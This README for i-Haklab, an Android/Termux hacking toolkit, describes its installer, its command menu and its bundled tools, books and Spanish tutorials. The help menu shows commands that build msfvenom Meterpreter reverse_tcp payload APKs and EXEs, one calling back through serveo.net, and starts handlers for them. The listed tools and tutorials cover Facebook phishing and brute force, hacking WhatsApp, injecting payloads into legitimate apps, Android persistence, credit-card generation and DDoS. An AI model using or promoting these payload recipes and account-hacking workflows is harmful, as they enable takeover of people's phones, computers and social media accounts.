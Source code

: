 # i-Haklab v.1.0 2019 by @Ivam3
	DISCLAIMER
Please do not use in military or secret service organizations, or for illegal purposes.
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

To get help about how to use it join to irc chat in i-Haklab command
To report some issues join to https://t.me/Ivam3byCinderella


i-Haklab Is a hacking laboratory that contains open source tools recommended by Ivam3. It use oh my fish insteractive shell, to get help about its use going to >> https://fishshell.com/docs/current/tutorial.html.

:::::::::::::::::: Processes during installation :::::::::::::::::::

i-haklab will ......

- check if your android device has some root, if so, it will install the sudo command.
- check if termux has permission to access the external memory, thus, in there it will create a directory called homeroot and there will install the tools and/or frameworks. otherwise they will be installed in the directory /data/data/com.termux/files/home. By the way, in case of Termux is installed in a second partition of your external memory those will be in /data/sdext2/data/com.termux/files/home.
- Once the installation of the tools and/or frameworks is finished, i-Haklab will ask you to configure your password, security question and answer, which will be necessary to start session in i-Haklab.
- i-Haklab has the "lock" command which will block the screen and it will only be unlocked with said password or answering the security question. It is worth mentioning that these access codes are encrypted for your security
- Coupled with it i-Haklab has an automation command for updating, installing and uninstalling tools and books, and executing hacking processes under a single command. under the command we will find the weechat argument, with which you can join the official IRC Ivam3byCinderella ((Internet Relay Chat (IRC) is an application layer protocol that facilitates communication in the form of text. The chat process works on a client/server networking model)).

Just execute from the command line $ i-Haklab --help to see the menu of use.

:::::::::::::::::: i-Haklab help menu :::::::::::::::::::

Syntax: i-Haklab [-arg-] [-option-]

Arguments  |    Options     |    Description
╰─help─────➤────────────────➤ Show this help menu
╰─list─────➤────────────────➤ List all available tools/frameworks
╰─show─────➤──tools/books───➤ Show tools details and books availables
|   ╰──────➤──tutorials/QG──➤ Show tutorials and Quick Guides availables
╰─install──➤───tool/book────➤ Install tools or books
╰─remove───➤─────tool───────➤ Remove tools
╰─weechat──➤────────────────➤ Connect with irc Ivam3byCinderella chat
╰─update───➤────────────────➤ Update i-Haklab
╰─upgrade──➤────────────────➤ upgrade i-Haklab by installing/upgrading tools
╰─version──➤────────────────➤ Show i-Haklab version installed
|       |        |
[--] Automatitation Arguments [--]
Arguments  |    options     |    Description
╰─handler──➤──file.rc name──➤ Start handler on msfconsole with previous setting
╰───apk────➤──inlan/outlan──➤ Create a coded payload apk with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=android/meterpreter/reverse_tcp apk=inlan.apk
|                     ╰─────➤ LPORT=48263 LHOST=serveo.net apk=outlan.apk
|                             Payload=android/meterpreter/reverse_tcp
╰─paylink──➤─pc/nexam/soa5──➤ Create a link payload with handler
|             ╰───|────|────➤ For targets [0]generic, [1]windows, [2]macOS and [3]linux
|                 |    |      example: i-Haklab paylink pc 2
|                 ╰────|────➤ For targets [0]nexxus and [29]samsung
|                      |      example: i-Haklab paylink nexam 29
|                      ╰────➤ For android operative system equal at version 5 to down
╰──payexe──➤──inlan/outlan──➤ Create a coded payload .exe with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=windows/meterpreter/reverse_tcp file=inlan.exe
|                     ╰─────➤ LPORT=48263 Payload=windows/meterpreter/reverse_tcp
|                             LHOST=serveo.net apk=outlan.apk
╰─serveo───➤────────────────➤ Start a SSH client to request TCP port forwarding from the server and proxy
|    ╰─────➤────domain──────➤ Start a SSH client to request port forwarding with especific dns

**** If you want to suggest some command do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


:::::::::::::: Tools or frameworks available in i-Haklab ::::::::::::::

01: D-TECT
02: DoS-A-Tool
03: ExiF
05: binchecker
06: blackbox
07: converter
08: adminpanel
09: wpscan
10: aircrack-ng
11: androbugs
12: beef
13: bettercap
14: cc-genpro
15: java
16: credmap
17: crunch
18: embed
19: evilurl
20: fbbrute
21: fbi
22: fuzzdb
23: hakku
24: hatcloud
25: hunner
26: ipgeolocation
27: metasploit
28: ngrok
29: nikto
30: pasterm
31: youtube-dl
32: php-server
33: pybelt
34: recon-ng
35: recondog
36: redhawk
37: routersploit
38: seeker
39: shellphish
40: shellsploit
41: spotichk
42: sqliv
43: sqlmap
44: ssh-server
45: theharvester
46: hydra
47: tor

**** If you want to suggest some tool, do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


:::::::::::::: Games available in i-Haklab ::::::::::::::

01: 2048
02: angband
03: brogue     
04: curseofwar
05: gnugo
06: greed
07: mathomatic
08: moon-buggy
09: snakegame
10: solitaire

**** If you want to suggest some game do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


:::::::::::::: Books available in i-Haklab ::::::::::::::

01: Aprende html
02: Chema alonso coleccion
03: Comandos basicos linux
04: Cracking sin secretos
05: Conviertete en hacker by incube2
06: Ethical hacking
07: Hacking con python
08: Hacking etico 101
09: Hacking mexico seguridadofensiva nv.1
10: Hacking the hacker
11: Manual hacking dispositivos moviles
12: Metasploit para pentesters
13: My sql
14: Nmap by computaxion
15: Programa en C
16: Programa en C++
17: Programa en bash
18: Programacion en perl
19: Programacion en php
20: Programacion en ruby
21: Python para todos

**** If you want to suggest some book do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


:::::::::::::: Tutorials available in i-Haklab ::::::::::::::

01: TERMUX TIPS Cap.1
02: TERMUX TIPS Cap.2
03: TERMUX TIPS Cap.3
04: TERMUX TIPS Cap.4
05: TERMUX: Aprendamos como ejecutar comandos
06: TERMUX: Combinación de comandos
07: TERMUX: Instalando el comando Sudo
08: TERMUX: Modifica y/o personaliza el banner de iniciO
09: Termux - Creando contraseña de acceso (logging banner)
10: TERMUX: Youtube-DL
11: METASPLOIT: Instalación
12: METASPLOIT: RuGiR
13: METASPLOIT: Hacking Android inLAN
14: METASPLOIT: Persistencia en Android
15: METASPLOIT: Hacking Android outLAN
16: METASPLOIT: Hackeado Android inLAN con paylink
17: METASPLOIT: EMBED Inyectando payload en app legítima inLAN
18: METASPLOIT: EMBED Inyectando payload en app legítima outLAN
19: Dos-A-TooL - Ataque distribuido de denegación de servicio
20: METASPLOIT - Ataque distribuido de denegación de servicio
21: Kali-nethunter: Como instalarlo(no root)
22: HACKING WHATSAPP 1ra parte
23: HACKING WHATSAPP 2da parte
24: SETOOLKIT - Instalacion
25: PHISHING : Weeman Framework(1ra parte)- Instalación
26: PHISHING : Weeman Framework(2da parte)- Hacking Facebook inLAN
27: PHISHING : Weeman Framework(3ra parte) - Hacking Facebook - Asignacion de dominio(DNS)
28: NGROK : Instalacion
29: PHISHING : WEEMAN (4ta parte) - Hacking Facebook outLAN
30: PHISHING: Shellphish Framework - Hacking redes sociales
31: CRUNCH - Crear diccionearios para ataques de fuerza bruta
32: FBBRUTE - Ataque de fuerza bruta a FACEBOOK
33: FBI - Como sustraer información de un Facebook Hackeado
34: IPGEOLOCATION: Geolocalizacion de IP's en Google Maps
35: ExiF - Extrayendo Meta Datos
36: BETTERCAP - Instalación
37: i-Haklab - TUTORIAL
38: CURSO DE PROGRAMACIÓN EN BASH 1ra Parte
39: CURSO DE PROGRAMACIÓN EN BASH 2da Parte
40: CURSO DE PROGRAMACIÓN EN BASH 3ra Parte

**** If you want to suggest some tutorial do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot



# INSTALLATION

* Whit script Ivam3-Haklab

- download the script Ivam3-Haklab in :
		https://shrt.am/
- move it to Home directory
		
		: $ mv <downloading directory> $HOME
- execute it by command 
		
		: $ bash Ivam3-Haklab

		NUMBER 2 : Cloning
- $ git clone https://github.com/ivam3/i-Haklab.git $HOME/i-Haklab
- $ cd $HOME/i-Haklab
- $ chmod 711 -R *
- $ bash setup

*** HAVE A NICE HACKING DAY!!!!
# 						@Ivam3
